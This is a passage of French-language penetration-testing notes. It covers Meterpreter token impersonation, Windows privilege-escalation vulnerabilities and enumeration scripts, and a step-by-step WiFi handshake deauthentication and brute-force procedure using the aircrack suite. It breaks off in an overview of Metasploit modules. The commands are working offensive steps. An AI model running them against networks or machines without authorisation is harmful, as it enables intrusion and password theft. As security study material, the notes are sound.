 ```
use incognito : charge le module
help : aide
list_tokens -u : liste les tokens
impersonate_token (/!\ 2 backslashes) : vol de token

```

### **3) Vulnérabilités connues**

- `MS16-032` : attaque d'usurpation de token
- `MS16-075 -> rottenpotteto.exe` : générer le token admin

## **Scripts automatisés**

- Script PEAS : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
- Enum4Linux : https://github.com/cddmp/enum4linux-ng
- PrivescCheck : https://github.com/itm4n/PrivescCheck
- PowerUP : https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
    *A lancer sur kali.*
- Script exploit suggester : https://github.com/AonCyberLabs/Windows-Exploit-Suggester

# Bruteforce de réseau wifi

Le **mode moniteur** permet à un ordinateur équipé d'une carte réseau Wi-Fi d'écouter tout le trafic d'un réseau sans fil. À la différence du mode promiscuous, qui est aussi utilisé pour sniffer un réseau, le mode moniteur permet aux paquets d'être capturés sans avoir besoin de s'enregistrer sur un point d'accès (AP) ou réseau ad hoc. Le mode moniteur n'existe que sur les réseaux sans fil, tandis que le mode promiscuous peut être utilisé à la fois sur les réseaux filaires et sans fil.

- kill tous les process qui pourrait empêcher de passer en monitor : `airmon-ng check kill`
- passage en mode monitor : `airmon-ng start wlan0` ou `ifconfig wlan0 down ; iwconfig wlan0 mode monitor ; ifconfig wlan0 up`
- capture de tous les AP à proximité : `airodump-ng wlan0`
- voir tous les flux d'un AP avec ses hôtes : `airodump-ng -c [channel] --bssid [bssid_ap] -w output wlan0`
- déconnecter un hôte pour récupérer handshake : `aireplay-ng -0 1 -a [bssid_ap] -c [bssid_hôte] wlan0`
- bruteforce du fichier de handshake : `crunch [min] [max] [caractères_testés] | aircrack-ng -w- -b [bssid_ap] *.cap`

**Autre moyen :** utiliser `fern` sur kali linux, etthercap ?, wifite2

# Metaploit Framework

## 1. Théorie

Chemin du répertoire : `/usr/share/metasploit-framework`
Sémantique : `module/catégorie`

List des modules disponibles :
- Auxiliary : modules de supports comme les scanners, crawlers, fuzzers
- Encoders : moule d'encodage de payload pour tenter de les rendre indétectable
- Evasion : module permettant aux payloads de tenter d'échapper aux AV
- Exploits (bout de code utilisant une vulnérabilité)
- NOPs - No OPeration : 0x90 (x86) permettant de ne rien faire faire aux CPU pour un cycle, utilisé comme du padding pour les payloads d'une taille constante
- Payloads : codes exécutés sur la machine cible, 3 catégories.
	- Single : exécute la fonction souhaitée (ajouté un utilisateur, lancer un .exe, etc.). Indépendant de metasploit, les single payloads peuvent être utilisés avec netcat par exemple. Exemple `generic/shell_reverse_tcp` .
	- Stager : établit une connexion entre metasploit et la victime